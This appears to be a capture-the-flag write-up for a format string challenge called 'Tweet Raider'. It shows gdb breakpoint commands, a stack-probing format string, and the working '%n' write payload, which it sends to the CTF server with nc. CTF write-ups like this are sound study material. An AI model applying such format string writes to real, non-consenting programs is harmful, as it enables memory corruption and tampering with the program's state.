 # Tweet Raider

This was a simple format string pwnable that involved overwriting an integer whose point is stored on the stack.

We start by setting up a breakpoint so we can check where counter variable is on stack:

```gdb
pie break *0xe62
pie run
```

We then overwrite the initial contents of this variable so we can easily leak it in format string:

```gdb
# Address changes based on malloc return value.
nexti
set {long}0x00005555557572a0 = 0x4242424242424242
```

The above snippet turns out to be unnecessary, but I'm keeping it as a reference for future use.

Running and entering the format string `AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p` shows us that our format string is the 8th argument on the stack, and the address of the counter variable immediately preceds it as the 7th argument on the stack.

We must overwrite the value stored at this location on the stack with our desired counter value (over 9000). So, we can use the following to overwrite the 7th argument on the stack with a value of over 9000:

```sh
echo '%.9001d%7$n' | ./tweet-raider
```

Now, we just need to fire it at the remote target:

```sh
echo '%.9001d%7$n' | nc pwn.ctf.b01lers.com 1004
```
